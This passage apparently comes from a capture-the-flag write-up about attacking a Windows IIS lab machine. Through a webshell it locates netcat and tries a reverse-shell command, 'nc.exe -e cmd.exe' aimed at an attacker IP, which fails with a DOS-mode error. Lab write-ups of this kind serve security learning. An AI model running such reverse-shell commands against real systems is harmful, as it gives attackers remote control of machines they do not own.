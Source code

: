 Which reported that location.

```none
C:\inetpub\wwwroot\nc.exe
```

![File system location of netcat](screenshots/80_webshell_find_nc.png)

With this knowledge, we could use the full path to call netcat and get a reverse shell. Here is the first payload used.

```none
C:\inetpub\wwwroot\nc.exe -e cmd.exe 10.10.14.10 9001
```

Alas! Not working. Got the following error: `This program cannot be run in DOS mode`.

![Netcat and dosmode](screenshots/80_webshell_dosmode.png)
